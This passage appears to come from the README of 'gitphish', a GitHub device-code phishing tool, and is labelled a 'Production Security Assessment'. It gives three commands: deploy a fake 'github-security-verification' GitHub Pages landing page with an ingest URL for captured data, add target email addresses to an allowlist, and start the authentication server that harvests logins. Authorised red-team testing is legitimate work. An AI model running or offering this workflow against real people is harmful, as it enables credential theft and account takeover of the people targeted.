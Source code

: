 ![Loading Page for Device Code](images/pages_portal.png)

## Usage Examples

### Production Security Assessment

```bash
# Step 1: Deploy GitHub Pages landing page
gitphish deploy create \
  --preset enterprise \
  --repo-name github-security-verification \
  --ingest-url "https://your-server.com/ingest"

# Step 2: Configure target list
echo "target1@company.com" >> data/allowlist.txt
echo "target2@company.com" >> data/allowlist.txt

# Step 3: Start authentication server
gitphish server
```
